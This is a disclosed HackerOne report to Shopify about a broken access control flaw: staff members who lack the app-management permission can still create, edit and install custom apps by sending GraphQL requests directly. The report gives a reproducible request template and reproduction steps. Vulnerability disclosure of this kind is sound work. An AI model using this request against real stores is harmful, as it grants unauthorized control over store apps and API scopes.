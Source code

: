 # Collaborators and Staff members without all necessary permissions are able to create, edit and install custom apps

## Report Details
- **Report ID**: 1555502
- **URL**: https://hackerone.com/reports/1555502
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-30T22:25:14.636Z
- **Disclosed**: 2022-07-11T17:50:35.738Z

## Reporter
- **Username**: kun_19
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:

### Custom Apps - Permissions

The store owner, collaborators and staff members can create, edit and install custom apps for their shopify store. Therefor, these users need multiple permissions.  The permissions

* `View apps developed by staff and collaborators`
* `Develop apps` and
* `Manage and install apps and channels`

are  all needed. See also https://shopify.dev/apps/auth/admin-app-access-tokens#changing-api-scopes:

> Anyone with a staff or collaborator account on a store can change what store resources an admin-created custom app can access, but only if they have all the following permissions:
    * the Manage and install apps and channels permission and the Develop apps permission
    * the relevant permissions for the respective store resource

### Missing "Manage and install apps and channels" permission

If the `Manage and install apps and channels` permission is finally not granted to a user, custom apps can't be created, edited or installed. The staff user in F1712978 has for example the two permissions `View apps developed by staff and collaborators` and `Develop apps` but **not** the `Manage and install apps and channels` permission. Thus, he is not able to create, edit and install custom apps. He is also not even able to reach the relevant config section at https://<YOUR_STORE>/admin/apps/development  to manage custom apps:  

{F1712979}

Furthermore, the direct usage of the relevant API endpoints is also not possible. The request to create a custom app is not permitted and the server states that the user must have edit permissions for custom apps:

```
POST /admin/internal/web/graphql/core?operation=CreateAppMutation&type=mutation HTTP/2
Host: 19kun-19.myshopify.com
Cookie: <COOKIES_STAFF_MEMBER>
X-Csrf-Token: <CSRF_STAFF_MEMBER>
Origin: https://19kun-19.myshopify.com
...

{
   "operationName":"CreateAppMutation",
   "variables":{
      "input":{
         "title":"test",
         "maintainerUserId":"gid://shopify/StaffMember/76770345016"
      }
   },
   "query":"mutation CreateAppMutation($input: ShopOwnedAppCreateInput!) {\n  shopOwnedAppCreate(input: $input) {\n    app {\n      id\n      title\n      __typename\n    }\n    userErrors {\n      field\n      message\n      code\n      __typename\n    }\n    __typename\n  }\n}\n"
}
```

```
HTTP/2 200 OK
Date: Sat, 30 Apr 2022 20:04:03 GMT
Content-Type: application/json; charset=utf-8
...

{
   "data":{
      "shopOwnedAppCreate":null
   },
   "errors":[
      {
         "message":"Access denied for shopOwnedAppCreate field. Required access: The user must have edit permissions for custom apps.",
         "locations":[
            {
               "line":2,
               "column":3
            }
         ],
         "path":[
            "shopOwnedAppCreate"
         ],
         "extensions":{
            "code":"ACCESS_DENIED",
            "documentation":"https:\/\/shopify.dev\/api\/usage\/access-scopes",
            "requiredAccess":"The user must have edit permissions for custom apps."
         }
      }
   ],
   ...
}
```

So far, so good, but if the store owner now decides to give the staff member only a permission to  **one specific** app (see F1712985), a problem occurs.
The staff member still have no access to the config section for managing the custom apps...  

{F1712990}  
{F1712991}

...but when using the API endpoints now directly, custom apps can be **created**, **edited** and **installed** by the staff member! The HTTP request above is now successful and the custom app could be created. This is definitely not intended. 

## Shops Used to Test:
https://19kun-19.myshopify.com

## Steps To Reproduce:

  1. As s store owner, enable the custom app development
  2. Make sure you added a staff member to your store and give him the two rights `View apps developed by staff and collaborators` and`Develop apps` **and** the permission for just **one** specific app (like in F1712985)
  3. Log in as staff member and visit https://<YOUR_STORE>/admin/apps/development (the config section for custom apps). You should see that you have no permissions to access this view (like in F1712991)
  4. Create a custom app by executing following request (replace the placeholders appropriately):  
```
POST /admin/internal/web/graphql/core?operation=CreateAppMutation&type=mutation HTTP/2
Host: <YOUR_STORE>
Cookie: <STAFF_MEMBER_COOKIE>
Content-Length: 428
Sec-Ch-Ua: "Chromium";v="93", " Not;A Brand";v="99"
X-Csrf-Token: <CSRF_TOKEN>
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Content-Type: application/json
Accept: application/json
X-Shopify-Web-Force-Proxy: 1
Sec-Ch-Ua-Platform: "Linux"
Origin: https://19kun-19.myshopify.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{
   "operationName":"CreateAppMutation",
   "variables":{
      "input":{
         "title":"Broken Access PoC",
         "maintainerUserId":"gid://shopify/StaffMember/<STAFF_MEMBER_ID>"
      }
   },
   "query":"mutation CreateAppMutation($input: ShopOwnedAppCreateInput!) {\n  shopOwnedAppCreate(input: $input) {\n    app {\n      id\n      title\n      __typename\n    }\n    userErrors {\n      field\n      message\n      code\n      __typename\n    }\n    __typename\n  }\n}\n"
}
```
  5. Visit https://<YOUR_STORE>/admin/apps/development as a **store owner**. You should now observe the created custom app by the staff member:  
{F1713002}

**NOTE**: The other API endpoints related to the custom apps can also be used. Thus, after creating the custom app, the staff member is for example also able to edit the Admin API access scope and install the custom app.

## Impact

A shopify store owner / admin relies on the documentation and assumes that a staff member without the permission to `Manage and install apps and channels` is not able to create, edit or install custom apps. If the store owner / admin now grants a staff member the permission to only one app, the staff member (attacker) is able to

* create and install new custom apps with specific Admin API access scopes
* edit / modify existing custom apps of the store admin / other staff members, including
  * changing Admin API scopes (Integrity)
  * uninstalling the app (Availability)
  * uninstalling / reinstalling the app (which rotates the access keys) (Integrity + Availability)
  * etc.

## Attachments
- needed_permissions.png
- no_permission_dev_view.png
- permission_specific_app.png
- admin_apps.png
- no_permission_dev_view_2.png
- created_custom_app.png
